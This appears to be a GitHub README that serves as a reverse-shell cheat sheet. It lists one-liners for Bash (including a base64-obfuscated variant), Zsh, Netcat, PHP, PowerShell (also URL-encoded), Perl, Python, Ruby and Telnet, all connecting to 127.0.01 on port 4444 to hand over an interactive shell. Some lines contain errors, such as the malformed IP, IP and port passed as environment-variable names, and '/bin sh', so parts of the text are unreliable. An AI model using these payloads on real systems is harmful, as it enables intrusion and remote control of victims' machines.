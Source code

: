 # ReverseShell

Bash:
- bash -c 'exec bash -i &>/dev/tcp/127.0.01/4444 <&1'

Bash ByPass pipe:
- bash<<<$(base64 -d<<<YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTI3LjAuMDEvNDQ0NCA8JjEn)

Zsh:
- zsh -c 'zmodload zsh/net/tcp && ztcp 127.0.01 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'

Netcat:
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.01 4444 >/tmp/f

PHP:
- php -r '$sock=fsockopen(getenv("127.0.01"),getenv("4444"));exec("/bin/sh -i <&3 >&3 2>&3");'

PowerShell:
- powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('127.0.01',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
- URL Encoded: powershell%20-nop%20-c%20%22$client%20=%20New-Object%20System.Net.Sockets.TCPClient('127.0.01',4444);$stream%20=%20$client.GetStream();%5Bbyte%5B%5D%5D$bytes%20=%200..65535%7C%25%7B0%7D;while(($i%20=%20$stream.Read($bytes,%200,%20$bytes.Length))%20-ne%200)%7B;$data%20=%20(New-Object%20-TypeName%20System.Text.ASCIIEncoding).GetString($bytes,0,%20$i);$sendback%20=%20(iex%20$data%202%3E&1%20%7C%20Out-String%20);$sendback2%20=%20$sendback%20+%20'PS%20'%20+%20(pwd).Path%20+%20'%3E%20';$sendbyte%20=%20(%5Btext.encoding%5D::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()%7D;$client.Close()%22

Perl:
- perl -e 'use Socket;$i="$ENV{127.0.01}";$p=$ENV{4444};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Python:
- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.01",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

Ruby:
- ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["127.0.01"],ENV["4444"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

Telnet:
- TF=$(mktemp -u); mkfifo $TF && telnet 127.0.01 4444 0<$TF | /bin sh 1>$TF
- URL Encoded: TF=$(mktemp%20-u);%20mkfifo%20$TF%20&&%20telnet%20127.0.01%204444%200%3C$TF%20%7C%20/bin%20sh%201%3E$TF
